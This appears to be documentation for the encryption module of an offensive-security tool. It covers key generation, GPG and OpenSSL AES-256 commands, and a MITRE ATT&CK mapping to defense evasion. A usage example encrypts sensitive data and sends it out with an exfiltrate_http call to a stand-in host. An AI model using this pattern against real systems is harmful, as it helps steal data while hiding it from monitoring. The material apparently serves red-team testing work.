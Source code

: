 # Encryption Functionality

## Overview
The encryption functionality provides secure data protection for exfiltrated data using industry-standard encryption methods. This document describes the encryption system implementation and usage.

## MITRE ATT&CK Mapping
- **Tactic**: Defense Evasion (TA0005)
- **Technique**: Obfuscated Files or Information (T1027)

## Supported Encryption Methods
- `none`: No encryption (default)
- `gpg`: GPG symmetric encryption using AES-256
- `aes`: OpenSSL AES-256-CBC encryption

## Components

### 1. Setup Encryption
The `setup_encryption()` function initializes the encryption system:
- Validates the requested encryption method
- Generates a random encryption key
- Sets up global encryption state

```bash
setup_encryption "gpg"  # Returns 0 on success, 1 on failure
```

### 2. Key Generation
The `generate_encryption_key()` function creates cryptographically secure random keys:
- Uses OpenSSL's random number generator
- Generates 32 bytes of random data
- Returns base64 encoded key

```bash
key=$(generate_encryption_key)
```

### 3. Method Validation
The `validate_encryption_method()` function ensures only supported methods are used:
- Checks input against list of supported methods
- Returns 0 for valid methods, 1 for invalid
- Provides helpful error messages

```bash
validate_encryption_method "gpg"  # Returns 0 if valid
```

### 4. Data Encryption
The `encrypt_output()` function performs the actual encryption:
- Supports multiple encryption methods
- Handles errors gracefully
- Returns encrypted data in appropriate format

```bash
encrypted_data=$(encrypt_output "$data" "$method" "$key")
```

## Usage Example

```bash
# Initialize encryption
if setup_encryption "gpg"; then
    # Encrypt data
    data="sensitive information"
    encrypted=$(encrypt_output "$data" "gpg" "$ENCRYPT_KEY")
    
    # Exfiltrate encrypted data
    exfiltrate_http "$encrypted" "https://example.com"
fi
```

## Security Considerations

1. Key Management
   - Keys are generated using cryptographically secure random number generation
   - Keys are transmitted separately from encrypted data
   - Keys are stored only in memory, never written to disk

2. Encryption Strength
   - GPG uses AES-256 in symmetric mode
   - AES uses 256-bit CBC mode with secure key derivation
   - All encryption operations use standard library implementations

3. Error Handling
   - Failed encryption operations are detected and reported
   - Invalid methods are rejected early
   - Error messages don't leak sensitive information

## Implementation Details

1. Key Generation
   ```bash
   openssl rand -base64 32
   ```

2. GPG Encryption
   ```bash
   gpg --batch --yes --passphrase "$key" --symmetric --cipher-algo AES256
   ```

3. AES Encryption
   ```bash
   openssl enc -e -aes-256-cbc -base64 -k "$key"
   ```

## Best Practices

1. Always validate encryption methods before use
2. Generate new keys for each encryption session
3. Handle encryption errors appropriately
4. Use secure key transmission methods
5. Clear sensitive data from memory when possible

## Limitations

1. Key transmission must be handled separately
2. Some encryption methods may not be available on all systems
3. Performance impact with large datasets
4. Memory constraints with very large keys or data 